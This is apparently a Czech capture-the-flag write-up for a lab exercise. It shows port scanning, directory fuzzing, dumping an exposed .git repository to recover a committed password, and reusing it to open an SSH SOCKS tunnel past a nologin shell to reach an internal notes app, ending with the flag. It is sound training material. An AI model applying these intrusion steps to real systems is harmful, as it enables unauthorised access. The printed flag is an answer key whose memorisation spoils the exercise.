


# Admin Johnson (3)

## Zadání

Hi, TCC-CSIRT analyst,

admin Johny is testing a new notebook to take notes, as any good administrator would. He thinks he has correctly secured the application so that only he can access it and no one else. Your task is to check if he made any security lapses.

* Admin Johny uses workstation `johny-station.cypherfix.tcc`.
* Application for notes runs on `notes.cypherfix.tcc`.

See you in the next incident!

## Nápovědy (Hints)

1. `/usr/sbin/nologin` is a good servant but a bad master.

## Řešení

Začneme skenováním portů

`nmap johny-station.cypherfix.tcc`

```text
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

`nmap notes.cypherfix.tcc`

```text
80/tcp   open  http
8080/tcp open  http-proxy
8081/tcp open  blackice-icecap
```

Na <http://johny-station.cypherfix.tcc> se zdá, že běží Apache server ve výchozím nastavení bez nahraných webových stránek.

Stránka <http://notes.cypherfix.tcc> je přesměrována na <http://notes.cypherfix.tcc:8080/>, která ale nevrací žádný obsah. Stejné je to s <http://notes.cypherfix.tcc:8081/>.

Zkusím zjistit, jestli přece jen není něco nahrané na adrese <http://johny-station.cypherfix.tcc>.

`ffuf -w /usr/share/dirb/wordlists/common.txt -u http://johny-station.cypherfix.tcc/FUZZ`

```text
.htaccess               [Status: 403, Size: 292, Words: 20, Lines: 10, Duration: 25ms]
                        [Status: 200, Size: 10701, Words: 3427, Lines: 369, Duration: 26ms]
.hta                    [Status: 403, Size: 292, Words: 20, Lines: 10, Duration: 26ms]
.htpasswd               [Status: 403, Size: 292, Words: 20, Lines: 10, Duration: 34ms]
~mail                   [Status: 403, Size: 292, Words: 20, Lines: 10, Duration: 22ms]
~lp                     [Status: 403, Size: 292, Words: 20, Lines: 10, Duration: 22ms]
~bin                    [Status: 403, Size: 292, Words: 20, Lines: 10, Duration: 22ms]
~nobody                 [Status: 403, Size: 292, Words: 20, Lines: 10, Duration: 22ms]
~sys                    [Status: 403, Size: 292, Words: 20, Lines: 10, Duration: 26ms]
index.html              [Status: 200, Size: 10701, Words: 3427, Lines: 369, Duration: 17ms]
server-status           [Status: 403, Size: 292, Words: 20, Lines: 10, Duration: 18ms]
```

Složky začínající `~` se používají pro webové stránky, které si může každý uživatel spravovat sám. Zkusíme <http://johny-station.cypherfix.tcc/~johny>.

Zobrazí se seznam nahraných souborů.

```text
Index of /~johny
Name              Last modified   Size Description
Parent Directory                   -
flatnotes/        2024-10-14 12:01 -
```

Adresář flatnotes obsahuje zdrojové soubory systému pro zápis poznámek <https://github.com/dullage/flatnotes>.

Prozkoumáním souborů jsem nenašel nic zajímavého. Zkusíme znovu `ffuf`.

`ffuf -w /usr/share/dirb/wordlists/common.txt -u http://johny-station.cypherfix.tcc/~johny/FUZZ`

Nic zajímavého

```text
                        [Status: 200, Size: 956, Words: 64, Lines: 17, Duration: 28ms]
.hta                    [Status: 403, Size: 292, Words: 20, Lines: 10, Duration: 20ms]
.htpasswd               [Status: 403, Size: 292, Words: 20, Lines: 10, Duration: 20ms]
.htaccess               [Status: 403, Size: 292, Words: 20, Lines: 10, Duration: 20ms]
```

`ffuf -w /usr/share/dirb/wordlists/common.txt -u http://johny-station.cypherfix.tcc/~johny/flatnotes/FUZZ`

Na serveru je skrytý adresář `.git`.

```text
                        [Status: 200, Size: 4673, Words: 269, Lines: 35, Duration: 15ms]
.hta                    [Status: 403, Size: 292, Words: 20, Lines: 10, Duration: 258ms]
.htpasswd               [Status: 403, Size: 292, Words: 20, Lines: 10, Duration: 270ms]
.htaccess               [Status: 403, Size: 292, Words: 20, Lines: 10, Duration: 277ms]
.git/HEAD               [Status: 200, Size: 24, Words: 2, Lines: 2, Duration: 277ms]
client                  [Status: 301, Size: 360, Words: 20, Lines: 10, Duration: 24ms]
docs                    [Status: 301, Size: 358, Words: 20, Lines: 10, Duration: 13ms]
LICENSE                 [Status: 200, Size: 1090, Words: 153, Lines: 22, Duration: 15ms]
server                  [Status: 301, Size: 360, Words: 20, Lines: 10, Duration: 14ms]
```

Ke stažení git repozitáře z webové stránky použijeme <https://github.com/arthaud/git-dumper>.

`git-dumper http://johny-station.cypherfix.tcc/~johny/flatnotes flatnotes`

Ve staženém repozitáři je commit od uživatele johny `User password for http://notes.cypherfix.tcc:8080` měnící heslo `FLATNOTES_PASSWORD` na `gojohnygo`.

```text
...
docker run -d \
  -e "PUID=1000" \
  -e "PGID=1000" \
  -e "FLATNOTES_AUTH_TYPE=password" \
  -e "FLATNOTES_USERNAME=user" \
  -e "FLATNOTES_PASSWORD=gojohnygo" \
  -e "FLATNOTES_SECRET_KEY=aLongRandomSeriesOfCharacters" \
  -v "$(pwd)/data:/data" \
  -p "8080:8080" \
  dullage/flatnotes:latest
```

Zkusíme se pomocí tohoto hesla přihlásit k SSH.

`ssh johny@johny-station.cypherfix.tcc`

Spojení je ihned ukončeno.

```text
Linux e9ac2205cf80 6.1.0-22-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.94-1 (2024-06-21) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Oct 15 06:34:46 2024 from 10.200.0.24
This account is currently not available.
Connection to johny-station.cypherfix.tcc closed.
```

Díky nápovědě je zřejmé, že uživatel `johny` má nastavený shell na `/usr/sbin/nologin`.

SSH spojení ale můžeme použít také k tunelování portů pomocí SOCKS5 bez nutnosti spouštět shell.


`ssh johny@johny-station.cypherfix.tcc -D 1337 -N`

Nastavíme proxy v prohlížeči



a zkusíme zobrazit <http://notes.cypherfix.tcc> pomocí nastaveného proxy a SSH tunelu.

Teď už se zobrazí přihlašovací stránka flatnotes. Zkusíme jméno a heslo z vyčteného gitu `user / gojohnygo`.

Funguje, zkusíme vyhledat slovo flag.

## Flag

`FLAG{VfCK-Hlp4-cQl8-p0UM}`
